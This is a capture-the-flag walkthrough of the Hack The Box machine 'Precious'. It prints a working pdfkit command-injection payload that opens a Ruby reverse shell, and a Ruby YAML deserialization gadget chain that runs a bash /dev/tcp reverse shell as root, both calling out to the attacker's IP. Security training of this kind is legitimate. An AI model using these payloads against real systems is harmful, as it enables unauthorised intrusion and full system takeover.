



# HTB : Precious


| Field | Details |
| - | - |
| Platform | [Hack The Box](https://app.hackthebox.com/machines/Precious) |
| Difficulty | Easy |
| OS | Linux |
| Author | ByteFragment |
| Date | November 2nd 2026 |


## Enumeration

### NMAP

Let's start off by port scanning the target using nmap via the command:

```
sudo nmap -sC -sV -T4 -p- 10.129.228.98 -oN nmap
```

This gives us the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap` so we can reference it later if needed without running a whole new scan.

```
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)  
| ssh-hostkey:   
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)  
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)  
|\_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)  
80/tcp open  http    nginx 1.18.0  
|\_http-title: Convert Web Page to PDF  
| http-server-header:   
|   nginx/1.18.0  
|\_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
```

From the nmap results, we can see that the target machine is running an `ssh` server on port `22`, and a `http server` on port `80` running `nginx 1.18.0 + Phusion Passenger(R) 6.0.15`. Let's add the target IP as well as `precious.htb`  to our /etc/hosts file as so:

```
10.129.228.98   precious.htb
```

and visit the page using the BurpSuite browser.

### Web Recon

Visiting the page we see that it is a page where the user can enter in a URL and have its contensts converted to a PDF.



In order to test the web application we are going to need to start an HTTP server on our attack machine as the HTB machine cannot reach out to external URLs. TO do so we simply run the command:

```
python3 -m http.server 80
```

Next we enter `http://ATTACK\_MACHINE\_IP` into the web apps form and click submit:



Let's use `exiftool` so view the metadata of the PDF and see if it can tell us anything useful:

```
┌──(kali㉿kali)-\[~/Downloads\]  
└─$ exiftool q9sdmr58l0qu3a1ocblpncxak6taxvk3.pdf   
ExifTool Version Number         : 13.55  
File Name                       : q9sdmr58l0qu3a1ocblpncxak6taxvk3.pdf  
Directory                       : .  
File Size                       : 17 kB  
File Modification Date/Time     : 2026:11:02 17:14:32-08:00  
File Access Date/Time           : 2026:11:02 17:14:37-08:00  
File Inode Change Date/Time     : 2026:11:02 17:14:37-08:00  
File Permissions                : -rw-rw-r--  
File Type                       : PDF  
File Type Extension             : pdf  
MIME Type                       : application/pdf  
PDF Version                     : 1.4  
Linearized                      : No  
Page Count                      : 1  
Creator                         : Generated by pdfkit v0.8.6
```

Within the metadata we see that the PDF was `Generated by pdfkit v0.8.6`

## Foothold

Searching for `pdfkit v0.8.0` we find that this version contains a `Command Injection` vulnerability as described in [CVE-2022-25765](https://nvd.nist.gov/vuln/detail/cve-2022-25765).

Multiple resources exist on how to use this to gain a reverse shell but I chose to reference [d-c4ptain](https://d-c4ptain.github.io/posts/CVE-2022-25765/)'s blog.

We first need to generate our payload which according to the blog post is to contain a ruby reverse shell:

```
http://10.10.15.249:80/?name=%20\`ruby -rsocket -e'spawn("sh",\[:in,:out,:err\]=\>TCPSocket.new("10.10.15.249",4444))'\`
```

For this to work we need to have our HTTP server up and running as well as a Net Cat listener running on port 4444. Once this is done we are able to go back to the web page and submit our payload into the URL field:



Success! We now have a foothold on the target machine. However there is no user flag in the `ruby` users home directory but there is one in `/home/henry`.

## Lateral Movement

```
ruby@precious:~$ pwd    
pwd  
/home/ruby  
ruby@precious:~$ ls -al  
ls -al  
total 28  
drwxr-xr-x 4 ruby ruby 4096 Nov  2 18:28 .  
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..  
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash\_history -\> /dev/null  
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash\_logout  
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc  
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle  
drwxr-xr-x 3 ruby ruby 4096 Nov  2 18:28 .cache  
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```

Listing all the contents in the home directory there is one that stands out: `.bundle`. It contains a single config file:

```
ruby@precious:~/.bundle$ cat conf  
cat config   
---  
BUNDLE\_HTTPS://RUBYGEMS\_\_ORG/: "henry:\<REDACTED\>"
```

Printing its contents we see it contains the `henry` user's credentials which we can use to ssh onto the target machine:

```
ssh henry@precious.htb  
\*\* WARNING: connection is not using a post-quantum key exchange algorithm.  
\*\* This session may be vulnerable to "store now, decrypt later" attacks.  
\*\* The server may need to be upgraded. See https://openssh.com/pq.html  
henry@precious.htb's password:   
Linux precious 5.10.0-19-amd64 \#1 SMP Debian 5.10.149-2 (2022-10-21) x86\_64  
  
The programs included with the Debian GNU/Linux system are free software;  
the exact distribution terms for each program are described in the  
individual files in /usr/share/doc/\*/copyright.  
  
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent  
permitted by applicable law.  
Last login: Mon Nov  2 23:12:13 2026 from 10.10.15.249  
henry@precious:~$
```

The user file can be found in `/home/henry`.

## Escalation

Running `sudo -l` will give us a list of all the commands that `henry` can run using sudo:

```
henry@precious:~$ sudo -l  
Matching Defaults entries for henry on precious:  
    env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin  
  
User henry may run the following commands on precious:  
    (root) NOPASSWD: /usr/bin/ruby /opt/update\_dependencies.rb
```

The results show us that `henry` can run `/usr/bin/ruby /opt/update\_dependencies.rb` using sudo.

Attempting to run the file we find it returns an error stating that there is no file or directory names `dependencies.yml`. Printing the contents of the `/opt/update\_dependencies.rb` script shows that it attempts to load in a file with this name:

```
henry@precious:~$ cat /opt/update\_dependencies.rb  
\# Compare installed dependencies with those specified in "dependencies.yml"  
require "yaml"  
require 'rubygems'  
  
\# TODO: update versions automatically  
def update\_gems()  
end  
  
def list\_from\_file  
    YAML.load(File.read("dependencies.yml"))  
end  
  
def list\_local\_gems  
    Gem::Specification.sort\_by\{ |g| \[g.name.downcase, g.version\] \}.map\{|g| \[g.name, g.version.to\_s\]\}  
end  
  
gems\_file = list\_from\_file  
gems\_local = list\_local\_gems  
  
gems\_file.each do |file\_name, file\_version|  
    gems\_local.each do |local\_name, local\_version|  
        if(file\_name == local\_name)  
            if(file\_version != local\_version)  
                puts "Installed version differs from the one specified in file: " + local\_name  
            else  
                puts "Installed version is equals to the one specified in file: " + local\_name  
            end  
        end  
    end  
end
```

Searching online for `manipulating ruby yaml loading for privilege escalation` I found this [blog](https://exploitnotes.org/exploit/linux/privilege-escalation/ruby) post on gaining remote code execution by taking advantage of the ruby `File.read()` which included a payload.

Since we know that the script is looking for a `dependencies.yml` file we will create one in the `/tmp` directory with the following contents:

```
---  
- !ruby/object:Gem::Installer  
    i: x  
- !ruby/object:Gem::SpecFetcher  
    i: y  
- !ruby/object:Gem::Requirement  
  requirements:  
    !ruby/object:Gem::Package::TarReader  
    io: &1 !ruby/object:Net::BufferedIO  
      io: &1 !ruby/object:Gem::Package::TarReader::Entry  
         read: 0  
         header: "abc"  
      debug\_output: &1 !ruby/object:Net::WriteAdapter  
         socket: &1 !ruby/object:Gem::RequestSet  
             sets: !ruby/object:Net::WriteAdapter  
                 socket: !ruby/module 'Kernel'  
                 method\_id: :system  
             git\_set: "bash -c 'bash -i \>& /dev/tcp/10.10.15.249/1234 0\>&1'"  
         method\_id: :resolve
```

When loaded into the `update\_dependencies.rb` script the bash command at the bottom will be ran and in this case, since we are able to run the command as root, will initiate a root reverse shell.

After setting up a Net Cat listener on port 1234 we can run the command : `sudo /usr/bin/ruby /opt/update\_dependencies.rb`.

Checking our listener we can see that we have indeed obtained a reverse shell as root:

```
 nc -lvnp 1234                                                  
listening on \[any\] 1234 ...  
connect to \[10.10.15.249\] from (UNKNOWN) \[10.129.228.98\] 40642  
root@precious:/tmp\# whoami  
whoami  
root  
root@precious:/tmp\# hostname  
hostname  
precious 
```

The root flag can be found in the /root directory thus solving the challenge:


